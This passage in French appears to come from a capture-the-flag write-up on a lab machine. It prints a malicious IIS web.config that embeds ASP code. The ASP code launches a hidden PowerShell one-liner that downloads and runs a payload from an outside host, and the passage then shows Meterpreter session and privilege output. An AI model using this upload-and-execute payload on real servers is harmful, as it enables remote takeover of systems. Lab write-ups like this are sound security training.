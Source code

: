Pour les non-initiés ce module permet d'obtenir des one-liners dans différents formats (powershell, python, php, ...) qui une fois exécutés sur la victime permettront d'établir une session Meterpreter (ou un autre payload).  

Notre fichier web.config ressemble alors à celà :  

```html
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set oWSH= Server.CreateObject("WScript.Shell")
oWSH.Run "powershell.exe -nop -w hidden -c $o=new-object net.webclient;$o.proxy=[Net.WebRequest]::GetSystemWebProxy();$o.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $o.downloadstring('http://10.10.14.21/6ZBEmkVKkU');", 1, True
set oWSH = nothing
%>
-->
```

Et une fois uploadé et appelé on obtient notre session Meterpreter :  

```plain
msf exploit(multi/script/web_delivery) > 
[*] 10.10.10.93      web_delivery - Delivering Payload
[*] Sending stage (179779 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.14.21:139 -> 10.10.10.93:49159) at 2018-06-30 16:14:20 +0200

msf exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > getuid
Server username: BOUNTY\merlin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
```